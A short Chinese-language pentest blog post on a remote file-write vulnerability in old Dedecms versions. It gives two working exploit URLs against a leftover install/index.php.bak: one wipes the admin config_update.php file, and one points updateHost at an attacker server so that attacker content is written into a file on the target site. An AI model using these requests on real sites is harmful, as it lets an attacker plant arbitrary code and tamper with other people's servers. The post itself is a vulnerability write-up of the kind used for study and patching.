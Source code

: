 +++
date = "2016-08-05T23:29:20+08:00"
description = ""
draft = false
tags = ["dedecms"]
title = "Dedecms远程写文件漏洞"
topics = ["Pentest"]

+++

### 0x00 关于漏洞
> ```
Dedecms在20150618之前的版本都存在远程写文件漏洞，主要起因是Apache的解析漏洞
```

### 0x01 利用条件
> ```
dedecms版本为20150618之前的  
安装目录install下的index.php.bak文件未被删除
```

### 0x02 实例
* 查看cms版本
{{% fluid_img src="/img/post/dedecms_before_20150617_check_version.png" alt="查看织梦cms版本" %}}

* 清空文件

> ```php
http://www.xxxx.com/install/index.php.bak?step=11&insLockfile=a
&s_lang=a&install_demo_name=../data/admin/config_update.php
访问上面的链接会使服务器到http://updatenew.dedecms.com/base-v57/dedecms/
demodata.a.txt中读取内容写入到config_update.php，但demodata.a.txt为空，
所以就清空了config_update.php
```
{{% fluid_img src="/img/post/dedecms_before_20150617_clear_config_update.png" alt="清空文件config_update" %}}

* 在自己的服务器上创建文件
{{% fluid_img src="/img/post/dedecms_before_20150617_construction_file.png" alt="在自己的服务器上构造文件" %}}

* 写入文件

> ```
访问http://www.xxxx.com/install/index.php.bak?step=11&insLockfile=a
&s_lang=a&install_demo_name=info.php&updateHost=http://123.123.123.123/
将自己的网站的dedecoms/demodata.a.txt写入到目标站点的install/下的info.php中
```
{{% fluid_img src="/img/post/dedecms_before_20150617_write_file.png" alt="将自己构造的内容写入到文件" %}}

* 访问生成的文件
{{% fluid_img src="/img/post/dedecms_before_20150617_visit_written_file.png" alt="访问写入我们内容的文件" %}}
